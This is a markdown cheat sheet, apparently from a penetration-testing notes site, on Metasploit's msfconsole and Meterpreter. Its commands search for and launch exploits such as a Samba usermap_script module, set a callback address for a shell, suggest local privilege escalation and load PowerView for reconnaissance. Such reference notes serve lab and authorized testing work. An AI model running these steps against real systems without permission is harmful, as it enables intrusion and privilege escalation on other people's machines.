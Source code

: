 ```yaml
---
title: "Metasploit"
date: 2025-7-25
tags: ["Exploitation", "Post-Exploitation", "Searchsploit", "Metasploit", "Vulnerability Scanning", "Exploit", "Meterpreter", "Windows", "Msfconsole"]
---
```


{{< tab set1 tab1 >}}msfconsole{{< /tab >}}
{{< tab set1 tab2 >}}meterpreter{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start Msfconsole

```console
msfconsole -q
```

#### General

```console
# Return to previous page
back
```

```console
# Upgrade session
sessions -u
```

```console
# Quit
exit
```

#### Search Exploit

```console
search <KEYWORD>
```

```console {class="sample-code"}
search samba
```

```console
use <NUM>
```

```console {class="sample-code"}
use 15
```

```console
# Choose by full path
use <MODULE_PATH>
```

```console {class="sample-code"}
use exploit/multi/samba/usermap_script
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
# Run exploit
run 
```

<small>*Hint: If you see a session is opened, but sit at an empty line, just type your cmd and press enter*</small>

#### Add Scripts from Searchsploit

```console
mkdir -p ~/.msf4/modules/exploits/linux
```

```console
mkdir -p ~/.msf4/modules/exploits/windows
```

```console
# For example a linux script
cp <SCRIPT> ~/.msf4/modules/exploits/linux
```

```console {class="sample-code"}
cp 12345.rb ~/.msf4/modules/exploits/linux
```

```console
# Inside msfconsole
reload_all
```

```console
# Search
search <SCRIPT>
```

#### Fix No Search Result

```console
# Inside msfconsole, check db status
db_status
```

```console
sudo service postgresql start
```

```console
update-rc.d postgresql enable
```

```console
sudo msfdb init
```

```console
# Go back to msfconsole and check again
db_status
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### General

```console
# Select session
sessions <SESSION_ID>
```

```console
# Return from meterpreter
background
```

#### Use Exploit

```console
# Quick look of potential privesc (Windows)
# Need to return from meterpreter
use post/multi/recon/local_exploit_suggester
```

```console
# Select opened session
set session 1
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
# Run exploit
run 
```

#### Use Powershell Module

```console
# Use powershell module
use powershell
```

```console
# Import module
powershell_import /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

```console
# Spawn powershell session
powershell_shell 
```

{{< /tabcontent >}}
